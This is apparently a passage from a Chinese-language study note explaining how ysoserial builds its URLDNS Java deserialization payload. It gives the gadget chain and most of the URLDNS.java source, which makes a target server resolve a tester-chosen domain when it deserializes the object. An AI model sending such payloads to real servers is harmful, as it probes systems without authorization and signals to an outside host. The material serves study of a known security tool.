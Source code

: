 打开 `src/main/java/ysoserial/payloads/URLDNS.java` 看看ysoserial是如何构造反序列化链的。
### URLDNS源码及利用链
ysoserial已经写明了调用链，显然，这个调用链就是反序列化的过程：
```
/*
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 */
```

`URLDNS.java`如下：
```
public class URLDNS implements ObjectPayload<Object> {

    public Object getObject(final String url) throws Exception {

        //Avoid DNS resolution during payload creation
        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

        //在上面的put过程中，计算并缓存URL的hashCode。现在重置它，以便在反序列化过程中调用hashCode时能触发DNS查找。
        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

        return ht;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(URLDNS.class, args);
    }

    /**
* <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
* DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
* using the serialized object.</p>
*
* <b>Potential false negative:</b>
* <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
* second resolution.</p>

* 防止创建payload的时候发送DNS解析请求
*/
    static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
```
